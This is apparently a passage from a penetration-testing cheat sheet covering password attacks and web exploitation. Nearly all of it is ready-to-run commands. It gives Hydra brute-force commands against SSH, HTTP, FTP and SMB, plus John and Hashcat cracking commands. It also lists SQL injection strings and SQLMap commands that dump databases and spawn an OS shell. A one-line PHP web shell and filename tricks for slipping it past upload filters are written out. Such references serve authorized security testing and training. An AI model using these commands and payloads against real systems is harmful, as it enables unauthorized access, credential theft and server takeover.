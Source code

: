 ### 4.2 Password Attacks

#### Hydra - Network Service Brute Force
```bash
# SSH brute force
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://target.com

# HTTP POST form brute force
hydra -l admin -P passwords.txt target.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid"

# FTP brute force
hydra -L users.txt -P passwords.txt ftp://target.com

# SMB brute force
hydra -L users.txt -P passwords.txt smb://target.com
```

#### Hash Cracking
```bash
# John the Ripper
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
john --show hashes.txt

# Hashcat
hashcat -m 1800 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt  # SHA-512
hashcat -m 1000 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt  # NTLM

# Hash identification
hashid hash_value
hash-identifier
```

### 4.3 Web Application Exploitation

#### SQL Injection
```bash
# Manual testing
' OR '1'='1
admin'--
' UNION SELECT 1,2,3--

# SQLMap automated
sqlmap -u "http://target.com/page?id=1" --dump
sqlmap -u "http://target.com/page?id=1" --os-shell
```

#### File Upload Vulnerabilities
```bash
# PHP web shell
echo "<?php system(\$_GET['cmd']); ?>" > shell.php

# Upload bypasses
shell.php.jpg
shell.pHP
shell.php%00.jpg
```
